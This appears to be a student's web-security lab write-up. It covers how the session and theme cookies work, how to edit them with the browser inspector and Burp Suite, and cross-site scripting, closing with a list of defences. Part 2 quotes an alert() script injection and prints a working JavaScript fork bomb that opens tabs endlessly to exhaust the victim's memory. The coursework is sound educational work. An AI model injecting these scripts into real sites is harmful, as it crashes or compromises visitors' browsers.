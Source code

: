 Name: Tianyi Lu
## Part1a
The cookies for this domain contains two entries.
"session": .eJwlzjkOwkAMAMC_bE3hPby285nI60PQJqRC_J1INFPPp-x5xPks2_u44lH2l5etmKwQBmCpS0RTq2hE6DCySgKANHgxoM1ByjWaSpprrISB0wh7Gi_ztrrXcZtzEnptmG4xo0OdS8PYcqaA9OZiZkCISETljlxnHP8Nlu8PHW8wSA.ZVwrUw.LLOi2JGNQTc9Fnw6dBAzufklSwg
"theme": default
## Part 1b
Yes, the cookie value for "theme" changed to the theme I select.
![[Pasted image 20231120220254.png]]
## Part 1c
Cookie: theme=default; session=.eJwlzjkKw0AMAMC_qE6hPbRa-TNGqwMHUtmkCvl7DGmmng_secZ1wJb6uuIB-9NhA5MVMhGnlCWiqUU0IrQbW2FBJO5zTSQbnXWWqCpprrESOw1jamlzmdfVvPTbHIPJS6V0ixENy1gaNi1HCkqrLmaGTETMDHfkfcX53xB8f09PMJM.ZVwskA.yvOPTN9Ja4U2BoKgNhmnw_ZOl2M

Set-Cookie: theme=default; Expires=Mon, 19 Feb 2024 04:07:36 GMT; Path=/

The cookie values from the inspector and Burpsuite are the same.
## Part 1d
Yes, the same theme is still selected.
## Part 1e
The current theme is included in "Cookie" field in the request header.
![[Pasted image 20231120221423.png]]
The server also includes it in "Set-Cookie" field in the response header.
![[Pasted image 20231120221506.png]]
## Part 1f
The browser send the latest theme in URL parameters ("/fdf/?theme=red"). The server gets this latest theme from the URL and put it in "Set-Cookie" in the response. Then, the browser will change its cookie accordingly.
![[Pasted image 20231120221547.png]]
## Part 1g
You can change cookie value in the Application field in the inspector. After you locate the cookie for this website, you can just overwrite any cookie values you want.
![[Pasted image 20231120221844.png]]
## Part 1h
In Burpsuite, we can turn on interception and modify the GET request send by the browser directly. To change the theme, we just have to change the corresponding value in the "Cookie" field.
![[Pasted image 20231120222031.png]]
## Part 1i
I'm using Arc browser in a MacOS. The cookies are stored in:
```
/Users/lutianyi/Library/Application Support/Arc/User Data/Default/Cookies
```
## Part 2a
When the user visits Moriarty's post, the browser will load the post content and render it. Since the post content is unsanitized, `<script>alert('Mwah-ha-ha-ha!');</script>` will be rendered as valid script tag in HTML. The content of the script is then executed, alerting message "Mwah-ha-ha-ha!" on the user's browser.
## Part 2b
Attackers can include javascript in script tags that reads all cookies for the current website and send it back to attackers' server.

## Part 2c
Attackers can also crash user's browser by using this fork bomb.
```html
<script>
  function fork() {
  const win = window.open();
  const script = win.document.createElement("script");
  script.innerHTML = fork + "\n" + "fork();";
  win.document.head.appendChild(script);
  setTimeout(function() {
    win.close();
    fork();
  }, 250)
  }
  fork();
</script>
```
It can repeatedly open blank tabs in user's browser until user's computer runs out of memory.
## Part 2d
- Browsers can help by automatically sanitizing inputs and outputs
- Browsers can set sensitive cookies as HttpOnly. HttpOnly cookies can’t be accessed by client-side scripts, reducing the risk of stolen cookies through XSS.
- Servers can utilize server-side libraries/frameworks that automatically clean user input.